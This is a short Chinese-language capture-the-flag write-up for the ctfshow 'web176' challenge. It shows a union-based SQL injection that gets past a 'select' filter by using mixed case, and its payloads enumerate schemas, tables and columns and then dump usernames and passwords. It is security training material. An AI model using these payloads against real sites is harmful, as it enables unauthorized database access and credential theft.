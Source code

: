 # web176
字符闭合正常回显
![](vx_images/457263473879610.png)
列数为三时回显正常
![](vx_images/131771479224863.png)
试了一下对select进行了过滤,大小写可绕过
![](vx_images/408623483276260.png)

```
1' union Select database(),2,schema_name from information_schema.schemata--+
```
![](vx_images/164792346096749.png)
查表
```
1' union Select database(),2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```
![](vx_images/401184724666753.png)
查字段
```
1' union Select database(),2,column_name from information_schema.columns where table_name='ctfshow_user'--+
```
![](vx_images/311703503005619.png)

```
1' union Select username,2,password from ctfshow_user--+

```

![](vx_images/406533139576673.png)